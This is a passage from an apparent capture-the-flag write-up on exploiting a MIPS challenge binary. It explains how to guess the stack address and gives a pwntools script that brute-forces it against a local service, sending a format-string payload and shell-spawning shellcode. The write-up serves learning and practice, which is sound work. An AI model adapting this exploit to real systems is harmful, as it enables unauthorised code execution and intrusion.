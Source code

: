 This means we can no longer use gdb to check memory of the program and find the stack address to jump to. If we notice the difference between our old stack address and the new one, they both start with `0x2b2ab???`.

If we look at the memory pages, we see that the max stack address is `0x2bac000`:
![[Pasted image 20240802233600.png]]

This means that our stack address is probably somewhere between `0x2bab000` and `0x2bac000`. Since program execution with no environment variables gave `0x2b2abef4`, we can assume that the less environment variables, the higher up on the stack we need to jump to. I'm going to assume that the program is executed in a manner that has minimal environment variables, so I'll start with an address of `0x2b2ac000` and continually execute the program, decrementing the stack address each time the program crashes

We create the following script to do this:
```python
from pwn import *

context(arch='mips', bits=32, endian='big')



target = 0x2b2ac000
for i in range(4096):
    #io = gdb.debug(args=['-L','.','./chall'], exe='./chall', env={}, gdbscript='''
    #        break *0x2b2abf24
    #        break *main+88
    #        ''')
    #io = process(['./qemu-mips', '-L', '.', './chall'], env={})
    io = remote('127.0.0.1', 1024)
    target -= 1
    stack_addr = p32(target)

    shellcode = asm(shellcraft.nop()) * 20
    shellcode += asm(shellcraft.sh())
    shellcode_len = len(shellcode)

    print(hex(target))

    io.sendline(b'%6$5c%1$'+ str(shellcode_len).encode() + b'c')
    io.sendline(stack_addr)
    io.sendline(shellcode)
    io.sendline(b'D'*100)

    io.interactive()
```


I execute the script and then hold down the `Enter` key for about 2-3 minutes. This is because the script is waiting for input, and won't crash until I give it some, so I have to continuously give it input in order for the script to move to the next execution. This is probably not the best method to do this, but it only took a couple minutes for it to work. After a little while the crashes stop, and nothing seems to be happening anymore:
![[Pasted image 20240802234534.png]]
 